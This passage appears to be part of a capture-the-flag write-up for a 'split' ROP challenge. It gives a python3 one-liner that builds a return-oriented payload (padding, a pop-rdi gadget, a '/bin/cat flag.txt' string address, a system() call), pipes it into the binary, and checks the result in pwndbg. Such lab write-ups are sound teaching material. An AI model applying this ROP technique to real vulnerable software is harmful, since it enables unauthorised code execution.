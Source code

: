 ```
python3 -c "import sys; sys.stdout.buffer.write(b'A'*40 + b'\xc3\x07\x40\x00\x00\x00\x00\x00' + b'\x60\x10\x60\x00\x00\x00\x00\x00' + b'\x4b\x07\x40\x00\x00\x00\x00\x00')" > payload
```

**Send the payload to the target:**

```
./split < payload
```

<figure><img src="../../.gitbook/assets/image (155).png" alt=""><figcaption><p>Result</p></figcaption></figure>

We get our flag!

### Analyzing the Payload in `pwndbg`

**Set a breakpoint at `system()`:**

```
b *0x000000000040074b
```

**Run the program and send payload:**

```
r < payload
```

<figure><img src="../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

We can now see our string `"/bin/cat flag.txt"` being passed as a command (or parameter) into the `RDI` register and being passed into `system()`.
